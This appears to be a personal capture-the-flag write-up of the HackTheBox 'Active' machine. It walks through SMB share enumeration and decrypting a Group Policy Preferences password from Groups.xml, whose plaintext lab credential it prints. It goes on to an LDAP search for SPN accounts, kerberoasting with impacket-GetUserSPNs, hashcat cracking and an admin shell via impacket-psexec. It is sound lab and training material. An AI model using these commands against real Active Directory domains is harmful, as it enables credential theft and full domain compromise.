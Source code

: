 # Active

<details>
<details>
  <summary><strong>Summary</strong></summary>
Scan the machine's open ports and find an smb server. Locate the smbshares using smbmap and access the available share using smbclient. Find a Groups.xml file and discover a gpp-encrypted password on it. Crack it and get access to some of the other SMB shares and get the first flag. Look for other users in the Active Directory instance using impacket-GetADUsers. Check if any of those users were created using an SPN using ldap search. Since the admin user is created using an SPN, kerberoast him using impacket-GetUserSPNs. Crack the resulting hash and use psexec to get a shell with the new password.
</details>
<br>

<summary2><strong>What I Learned</strong></summary2>

<body>

1. Learned that AD machines in HTB are quite different from the course material found in OFFSEC.
2. There are many ways to enumerate SMB shares and a lot of tools to do it.
3. Enumeration with SMB shares is actually way easier than the manual way I used to do it
4. If a user is kerberoastable, use impacket GetUserSPNs

</body>
</details>

### Scan the machine for open ports

![alt text](image.png)

### Scan the open ports

![alt text](image-1.png)

Find smbclient on port 445  
List the available shares
![alt text](image-2.png)

Use smbclient to access the Replication share
`smbclient \\\\<IP>\\<SHARE>`  
Find a Groups.xml file that contains a username and password
![alt text](image-3.png)

Decrypt the password found in the groups.xml file

```
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98g…
SCV_TGS : GPPstillStandingStrong2k18
```

Use SMBMap to check for the shares svc_tgs has access to  
`smbmap -u svc_tgs -p 'GPPstillStandingStrong2k18' -H 10.129.231.79`
![alt text](image-5.png)

Use the decrypted password to get access to the USERS smb share  
`smbclient -U 'svc_tgs%<PASSWORD>' \\\\10.129.231.79\\USERS`
![alt text](image-4.png)

Get all the users in the AD Instance
![alt text](image-6.png)

The administrator user is configured using a Service Principal Name on this Active Directory Instance

- `-x` -> simple authentication instead of SSL | `-H` server | `-D` user | `-w` password | `-b "dc=active,dc=htb"` -> sets the search base to the quoted string, which is the root of the AD domain | `-s sub` -> subtree search
- The subtree filter -> `(&(objectCategory=person)(objectClass=user)` -> targets users accounts
- `(!(useraccountcontrol:1.2.840.113556.1.4.803:=2))` -> Exclude disabled accounts
- `(serviceprincipalname=*/*))` -> searches for users that have any Service Principal Name
- `serviceprincipalname` -> requests only the servicePrincipalName attribute
- `grep -B 1 servicePrincipalName` -> Shows the service principal name along with the line before it (distinguished name)

![what goes here](image-7.png)

Get the SPN using impacket's GetUserSPNs tool

```
# Check
impacket-GetUserSPNs active.htb/svc_tgs -dc-ip 10.129.231.79
# Get the SPN
impacket-GetUserSPNs active.htb/svc_tgs -dc-ip 10.129.231.79 --request
```

![alt text](image-8.png)

### Take the hash and crack it locally

![alt text](image-9.png)

```
hashcat -m 13100 spn.hash /rockyou.txt
```

Get access using psexec

```
impacket-psexec administrator@10.129.231.79
```
